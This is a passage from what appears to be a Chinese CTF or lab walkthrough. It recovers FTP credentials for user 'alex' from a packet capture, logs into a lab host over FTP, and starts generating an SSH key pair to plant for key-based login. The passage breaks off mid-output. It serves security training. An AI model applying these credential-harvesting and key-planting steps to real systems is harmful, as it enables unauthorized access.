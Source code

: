 使用wireshark打开数据包，右键follow TCP stream，找到第25个数据包，是FTP用户登录，`alex/FwejAASD1`。（FTP是明文传输）

![](<../../.gitbook/assets/image (14) (1) (1) (1) (1) (1).png>)

使用FTP账号进行登录。

```
┌──(root💀kali)-[~/Downloads]
└─# ftp 192.168.32.139
Connected to 192.168.32.139.
220 (vsFTPd 3.0.2)
Name (192.168.32.139:root): alex
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
257 "/home/alex"
ftp> 
```

知道当前目录是`/home/alex`，这样可以上传公钥，用证书登录。

生成公钥和私钥。

```
┌──(root💀kali)-[/tmp]
└─# ssh-keygen          
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /tmp/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /tmp/id_rsa
Your public key has been saved in /tmp/id_rsa.pub
The key fingerprint is:
SHA256:Q0ht+VhJfqKtOcYclyVknabBEPTte9FKbk3QeRXxHlk root@kali
The key's randomart image is:
+---[RSA 3072]----+
|      .o+*+o . oE|
```